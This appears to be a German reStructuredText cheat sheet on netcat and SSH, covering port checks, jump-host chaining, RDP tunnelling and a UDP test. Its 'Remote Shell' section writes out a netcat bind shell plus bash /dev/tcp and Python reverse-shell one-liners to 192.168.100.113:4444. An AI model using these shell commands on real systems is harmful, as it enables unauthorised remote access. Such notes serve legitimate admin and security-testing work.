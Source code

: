 .. _nc_allg:

################
Netcat
################

Port offen:
============
nc -zv <host> <port>


Remote Shell
==============
Target Host: nc -lvp <port>
Source Host: 
* nc <target-ip> <port> -e /bin/bash

Alternativ via Bourne Shell auf dem target host:
Auf dem Target: bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Alternativ via Python auf dem target host:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);''


SSH
=====

Jumphost
---------

ssh über zwei Jumphosts:
    ssh -A -J <user@jmp1host>,<user@jmp2host> <user>@<zielhost>
    
    oder .ssh/config
    Host <zielhost>
        ProxyJump <user@jmp1host>,<user@jmp2host> <user>@<zielhost>

    dann mit <user>@<zielhost> anmelden

Windows RDP über ssh-Jumphost
------------------------------
ssh -L 33389:<windows terminalserver>:3389 -N <user>@<linux jumphost>

UDP Test
=========
https://unix.stackexchange.com/questions/235830/how-does-netcat-know-if-a-udp-port-is-open

Test zwischen zwei Servern: 

.. code-block:: 

    a:~# nc -luk 10.12.0.12 667 // listen on UDP port 667
    b:~# nc -uv 10.12.0.12 667  // check if port is open 
    nc: 10.12.0.12 (10.12.0.12) 667 [667] open
    I love stackexchange // send a message
    a:~# nc -luk 10.12.0.12 667
    I love stackexchange // receive the message.
